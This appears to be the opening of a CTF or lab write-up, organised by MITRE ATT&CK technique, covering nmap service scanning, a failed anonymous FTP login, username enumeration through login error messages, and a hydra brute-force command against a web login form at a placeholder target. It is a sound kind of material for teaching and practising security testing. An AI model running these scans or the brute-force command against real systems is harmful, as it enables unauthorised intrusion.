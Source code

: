 # Attack: Sequence of Events
## Reconnaissance:
### Active Scanning: Scanning IP Blocks(T1595.001)
I began with active reconnaissance of the target by using Nmap:
```bash
$ nmap -sV < TARGET IP >

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
111/tcp  open  rpcbind 2-4 (RPC #100000)
2049/tcp open  nfs     2-4 (RPC #100003)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
After enumerating the open ports and services on the host I began assessing each for vulnerabilities.

### FTP (21)
I tested the FTP service for Anonymous login capabilities. This attack vector appears to be unavailable:
```bash
$ ftp < TARGET IP >                                                                                                                        
Connected to < TARGET IP >.
220 (vsFTPd 3.0.3)
Name (< TARGET IP >:kali): Anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
```

### HTTP (80)
#### Search Victim-Owned Websites(T1594)
I began testing the HTTP service by performing a simple walkthrough of the web application. At `/signup.php` I attempted to create a user named "admin" and was informed "This username is already taken." 

I navigated to the login page and attempted logging in with username "test" and password "test." This resulted in an error message: "The username and password are not valid." I then changed the username to "admin" and the error changed to: "The password you entered is not valid."

I then attempted to brute force the login form at `/login.php`:
```bash
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt < TARGET IP > http-post-form "/login.php:username=^USER^&password=^PASS^:The password you entered is not valid."
```

